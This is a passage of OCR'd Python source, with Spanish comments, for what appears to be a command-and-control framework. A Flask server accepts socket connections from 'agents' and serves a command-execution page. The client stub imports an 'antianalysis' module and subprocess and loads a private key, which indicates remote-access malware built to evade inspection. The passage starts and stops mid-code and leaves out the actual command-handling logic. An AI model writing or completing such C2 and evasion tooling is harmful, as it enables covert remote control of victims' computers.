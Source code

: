     return render_template('execute_commands.html', agent_id=agent_id)


# Función para iniciar el servidor de sockets que escuchará las conexiones de los agentes
def start_socket_server(host='0.0.0.0', port=5001):
    server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server_socket.bind((host, port))
    server_socket.listen(5)
    print(f"Servidor de sockets escuchando en {host}:{port}...")

    while True:
        agent_socket, agent_address = server_socket.accept()
        agent_id = len(connected_agents) + 1
        threading.Thread(target=handle_agent_connection, args=(agent_socket, agent_address, agent_id)).start()

if __name__ == '__main__':
    # Iniciar el servidor de sockets en un hilo separado
    threading.Thread(target=start_socket_server, args=('0.0.0.0', 5001), daemon=True).start()
    # Iniciar el servidor Flask
    app.run(debug=True, host="0.0.0.0", port=5000) y esto en el cliente: import requests
import socket
import os
import json
import platform
import antianalysis
import subprocess

# Variable global para almacenar el ID del agente
agent_id = None

def get_ip_address():
    ip = socket.gethostbyname(socket.gethostname())
    return ip

def load_private_key():
    try:
        with open("rsa_private.pem", 'rb') as f:
            private_key = f.read()
        return private_key
    except FileNotFoundError:
        print("El archivo de clave privada no fue encontrado.")
        return None

# Establecer el agent_id en un archivo
def set_agent_id(id):
    with open("agent_id.json", "w") as file:
        json.dump({"agent_id": id}, file)
